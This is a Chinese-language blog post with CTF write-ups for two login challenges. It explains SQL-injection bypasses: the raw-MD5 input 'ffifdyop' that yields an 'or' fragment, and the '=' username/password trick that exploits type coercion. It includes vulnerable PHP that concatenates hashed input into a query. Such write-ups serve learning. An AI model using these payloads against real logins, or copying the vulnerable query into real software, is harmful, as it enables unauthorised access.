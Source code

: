 
---
layout:     post
title:      "sql inject"
subtitle:   "sql inject"
date:       2019-06-12 16:56:15
author:     "none"
header-img: "img/posts/default_post.jpg"
catalog: true
tags:
    - tag
---

# 后台登录
http://www.shiyanbar.com/ctf/2036

php 处理password的代码如下：
```php
<!-- $password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
$result=mysqli_query($link,$sql);
    if(mysqli_num_rows($result)>0){
        echo 'flag is :'.$flag;
    }
    else{
        echo '密码错误!';
    } -->
```

```php
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
该语句构建sql查询， php的.操作符表示字符串拼接, 字符串由下面三个部分构成
1) "SELECT * FROM admin WHERE username = 'admin' and password = '"
2) md5($password,true)
3) "'"
md5($password,true) 函数， MD5报文摘要将以16字节长度的原始二进制格式返回， 然后被转换成字符串
```
寻找$password输入，使得md5返回字符串完成sql注入
```php
<?php
$password = "ffifdyop";
echo md5($password,true);
?>

输出：
'or'6�]��!r,��b
```

# 登陆一下好吗??
http://www.shiyanbar.com/ctf/1942

username:'='

password:'='

```sql
create table users(username char(20), password char(20));
insert into users values("admin", "admin");
select * from users where username=''='' and password=''=''; 
# username='' 的结果为0， 0=''比较时，字符串被转为int时变为0， 0=0结果为true
```